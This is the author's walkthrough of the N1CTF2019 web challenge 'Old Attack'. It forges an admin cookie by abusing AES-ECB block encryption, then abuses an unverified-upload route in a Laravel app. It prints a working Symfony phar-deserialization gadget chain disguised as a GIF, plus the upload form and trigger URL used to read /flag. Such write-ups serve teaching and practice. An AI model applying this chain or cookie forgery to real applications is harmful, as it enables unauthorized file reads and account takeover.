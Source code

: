 # Old Attack

> In N1CTF2019,I designed a web task named Old Attack

### Step1

According to the task description, this is a too old attack.After you register for landing:

![1.jpg][1]

According to the content of the picture,u can find something in cookie

![image-20190908083455259.png][2]

It use AES-128-ECB to encrypt username,so we can use the defects of ECB encryption to be the admin

- 1:register aaaaaaaaaaaaaaaa to get auth_name
- 2:register aaaaaaaaaaaaaaaaadmin to get auth_name

To remove the same part, u can get admin's auth_name is `XAJSRxNvJLSyGo8r1aB6eQ%3D%3D`,replace your auth_name in cookie,u can get the step1's flag.I think it is too old attack:

![3.jpg][3]

## Step2

Okay,and now u can get the source code.It looks one easy Laravel Demo.And the path is `/var/www/html/babyphoto`

![image-20190908084729832.png][4]

Laravel's method is in `app/Http/Controllers`,view the `ctferController.php`:

It looks very small:

```php
    public function userpage(Request $request,$id)
    {   
        if($request->isMethod('get')){
          if(isset($_COOKIE['auth_name'])){
            $auth_check=$this->decrypt($_COOKIE['auth_name']);}else{
            $auth_check=Auth::user()->name;
          }
          if($auth_check==='admin'){
              $imgurl="";
              $usern='admin';
          }else{
              $imgurl="";
              $usern=Auth::user()->name;
          }
          return view('userpage')->with([
              'imgurl'=>$imgurl,
              'username'=>$usern,
              'id'=>$id
          ]);
        }else{
          if(Auth::user()->email_verified_at){
                  $file=$request->file('avatar');
                  $data=file_get_contents('/tmp/'.$file->getFilename());
                  $filesize=$file->getClientSize();
                  if($filesize > 204800){
                      die("too big");
                  }
                 //waf is here.don't rce.
                  $file->storeAs('avatars',md5(time().Auth::user()->id).'.gif');
          }else{
            die('NO!');
            }
        }      
    }
```

When the `$request->isMethod` is POST.U can upload something,but `if(Auth::user()->email_verified_at)` default is NULL.

In `routes/api.php`:

![image-20190908085122085.png][5]

U can update your account by visit `/api/user/account@mail`.

- e.g. /api/user/venenof7@nu1l.com

![image-20190908085450722.png][6]

And now,u can upload anything:)

If u read the official document of Laravel ,u will find something in blade:

![image-20190908214054010.png][7]

Okay,now,in the source code,u will find this:

![image-20190908214231716.png][8]

and `user_session` use in `resources/views/userpage.blade.php`:

![image-20190908214353816.png][9]

The `{id}` is in `route/web.php`:

```php
Route::any('/userpage/{id}', 'ctferController@userpage');
```

So,as everyone knows,`is_file` can trigger phar's unserialize.

So,in `vendor/symfony`,u will find pop chain,payload here:

```php
<?php


namespace Symfony\Component\Cache{
    class CacheItem
    {
        protected $expiry=1;
        protected $innerItem='/flag';
        protected $poolHash=1;
    }
}
namespace Symfony\Component\Cache\Adapter{
    use Symfony\Component\Cache\CacheItem;
    class TagAwareAdapter
    {
        private $deferred;
        private $pool; 
        public function __construct(){
            $this->deferred=array(new CacheItem());
            $this->pool=new ProxyAdapter();
        }
    }
    class ProxyAdapter
    {
        private $setInnerItem='readfile';
        private $poolHash=1;
    }
    $a=new TagAwareAdapter();
    $p = new Phar('./1.phar', 0);
    $p->startBuffering();
    $p->setStub('GIF89a __HALT_COMPILER(); ?>');
    $p->setMetadata($a);
    $p->addFromString('1.txt','text');
    $p->stopBuffering();
    rename('./1.phar', 'aa.gif');
}
```

And now,upload `aa.gif`:

```html
<html>
<body>
<form action="http://150.109.197.222/userpage/1" method="post"
enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="avatar" id="files" /> 
  <input type="hidden" name="_token" value="gBUxN4LrvxIJCn3R5UaSaAcx8aPJ8o4ulFWEgzHD">
<br />
<input type="submit" name="submit" value="Submit" />
</form>
</body>
</html>
```

And u can visit `http://150.109.197.222/time.php` to get `time()`
e.g:file path is `/var/www/html/babyphoto/storage/app/avatars/73b79c6410809385dd2ebef592041ee4.gif`

And u can use phar to read the flag by visit:
`http://150.109.197.222/userpage/cGhhcjovLy92YXIvd3d3L2h0bWwvYmFieXBob3RvL3N0b3JhZ2UvYXBwL2F2YXRhcnMvNzNiNzljNjQxMDgwOTM4NWRkMmViZWY1OTIwNDFlZTQuZ2lm`

![image-20190908221244758.png][10]


  [1]: http://www.venenof.com/usr/uploads/2019/09/4219885634.jpg
  [2]: http://www.venenof.com/usr/uploads/2019/09/423442362.png
  [3]: http://www.venenof.com/usr/uploads/2019/09/1273886672.jpg
  [4]: http://www.venenof.com/usr/uploads/2019/09/1687218789.png
  [5]: http://www.venenof.com/usr/uploads/2019/09/87060556.png
  [6]: http://www.venenof.com/usr/uploads/2019/09/1849826831.png
  [7]: http://www.venenof.com/usr/uploads/2019/09/3653729078.png
  [8]: http://www.venenof.com/usr/uploads/2019/09/3339351244.png
  [9]: http://www.venenof.com/usr/uploads/2019/09/981479089.png
  [10]: http://www.venenof.com/usr/uploads/2019/09/3836102465.png
